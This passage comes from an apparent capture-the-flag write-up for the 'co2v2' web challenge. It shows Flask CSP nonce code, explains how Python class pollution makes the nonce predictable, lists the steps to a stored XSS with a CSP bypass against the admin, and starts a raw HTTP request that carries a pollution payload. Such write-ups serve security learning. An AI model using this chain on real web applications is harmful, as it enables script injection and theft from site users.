 ```python
    return hash_hex

@app.before_request
def set_nonce():
    generate_nonce(request.path)

@app.after_request
def apply_csp(response):
    nonce = g.get('nonce')
    csp_policy = (
        f"default-src 'self'; "
        f"script-src 'self' 'nonce-{nonce}' https://ajax.googleapis.com; "
        f"style-src 'self' 'nonce-{nonce}' https://cdn.jsdelivr.net; "
        f"script-src-attr 'self' 'nonce-{nonce}'; " 
        f"connect-src *; "
    )
    response.headers['Content-Security-Policy'] = csp_policy
    return response
```

**`co2v2/src/app/utils.py`:**
```python
def generate_random_string(length=16):
    characters = string.ascii_letters + string.digits
    random_string = ''.join(random.choice(characters) for _ in range(length))
    return random_string
```

As you can see, the nonce is SHA256 hashed, and the input is `SECRET_NONCE<request_path><random_strings_with_RANDOM_COUNT_length>`.

Ah ha! We can also **pollute the `SECRET_NONCE` to be a string of anything**, and **`RANDOM_COUNT` to be integer `0`**. By doing so, the SHA256 input is: `<anything_we_want><request_path><empty_string>`.

Nice! We now get a full-blown **stored XSS with CSP bypass via Python class pollution**!

## Exploitation

Putting everything together, we can get the flag via:

1. Exploit Python class pollution to pollute `TEMPLATES_ESCAPE_ALL = False`, `SECRET_NONCE = 'literally_anything'`, and `RANDOM_COUNT = 0` via POST route `/save_feedback`
2. Update Jinja environment's `autoescape` attribute via POST route `/admin/update-accepted-templates`
3. Create a new blog post with XSS payload, and make it public
4. Report to admin
5. Get the flag!

Let's do it!

- Python class pollution

```http
POST /save_feedback HTTP/2
Host: web-co2v2-bf232bafe3979c0d.2024.ductf.dev
Cookie: session=.eJwlzssNwjAMANBdcuZgx5_GLIPs2BFcW3pC7A6IAZ70Xu229jru7frcz7q02yPbtQUDuBAQ2cIhNeZin-aoPS20Wzh3FSzWDCjm6FwZPir77OghGT_i2JOQFGKA6BDQKU4EkTotS2aNTdl8MdbMZbWRbR6jfSPnUft_g-39Ad-_MBE.Zoz09Q.LpfMqtgQWdTNmul74tzeLx41pjU
Content-Length: 337
Content-Type: application/json

{
    "title":"literally_anything",
    "content":"literally_anything",
    "rating":"literally_anything",
    "referred":"literally_anything",
```